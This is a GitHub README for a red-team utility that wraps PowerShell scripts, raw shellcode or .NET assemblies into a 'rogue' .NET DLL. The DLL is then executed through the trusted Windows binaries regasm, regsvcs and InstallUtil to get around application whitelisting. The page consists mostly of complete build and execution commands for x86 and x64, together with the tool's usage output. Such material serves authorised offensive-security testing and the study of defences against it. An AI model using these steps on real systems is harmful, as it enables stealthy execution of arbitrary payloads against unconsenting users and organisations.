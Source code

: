 ## Rogue .NET Assembly for Regsvcs/Regasm/InstallUtil Code Execution

Follow below described steps to properly generate your source code and then compile it into a nice rogue .NET Assembly ready to be executed by:

- [Regasm](https://lolbas-project.github.io/lolbas/Binaries/Regasm/)
- [Regsvcs](https://lolbas-project.github.io/lolbas/Binaries/Regsvcs/)
- [InstallUtil](https://lolbas-project.github.io/lolbas/Binaries/Installutil/)

### Step 1: Generate key.snk file

```
powershell -file build.ps1
```

### Step 2: Generate source code file

Included in this directory script is a helper utility allowing one to quickly generate desired csharp source code file to be used for further `csc` compilation.

Usage:

```
python3 generateRogueDotNet.py --help

        :: Rogue .NET Source Code Generation Utility
        To be used during Red-Team assignments to launch Powershell/Shellcode payloads via Regsvcs/Regasm/InstallUtil.
        Mariusz B. / mgeeky, <mb@binary-offensive.com>

usage: .\generateRogueDotNet.py [options] <inputFile>

positional arguments:
  inputFile   Input file to be embeded within C# code. May be either Powershell script, raw binary Shellcode or .NET Assembly (PE/EXE) file.

optional arguments:
  -h, --help  show this help message and exit
  -e, --exe   Specified input file is an Mono/.Net assembly PE/EXE. WARNING: Launching EXE is currently possible ONLY WITH MONO/.NET assembly EXE/DLL files, not an ordinary native PE/EXE!
  -r, --raw   Specified input file is a raw Shellcode to be injected in self process in a separate Thread.
```

Sample use case:

```
python3 generateRogueDotNet.py -r notepad64.bin > program.cs

        :: Rogue .NET Source Code Generation Utility
        To be used during Red-Team assignments to launch Powershell/Shellcode payloads via Regsvcs/Regasm/InstallUtil.
        Mariusz B. / mgeeky, <mb@binary-offensive.com>

[?] File specified as raw Shellcode.

```


###  Step 3: Compilate library .NET Assembly

```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /target:library /out:rogue.dll /keyfile:key.snk program.cs
```
 
If you passed Powershell code to be launched in a .NET Runspace, then an additional assembly will have to be used to compile resulting source code properly - meaning System.Management.Automation.dll (provided with this script). Then proper compilation command will be:

```
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.Management.Automation.dll /target:library /out:rogue.dll /keyfile:key.snk program.cs
```


### Step 4: Code execution via Regsvcs, Regasm or InstallUtil:

- x86:
```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regasm.exe rogue.dll
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U rogue.dll

%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe rogue.dll
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe /U rogue.dll 

%WINDIR%\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /logtoconsole=false /U rogue.dll
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /logtoconsole=false /U rogue.dll
```

- x64:
```
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\regasm.exe rogue.dll
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U rogue.dll

%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe rogue.dll
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe /U rogue.dll 

%WINDIR%\Microsoft.NET\Framework64\v2.0.50727\InstallUtil.exe /logfile= /logtoconsole=false /U rogue.dll
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /logtoconsole=false /U rogue.dll
```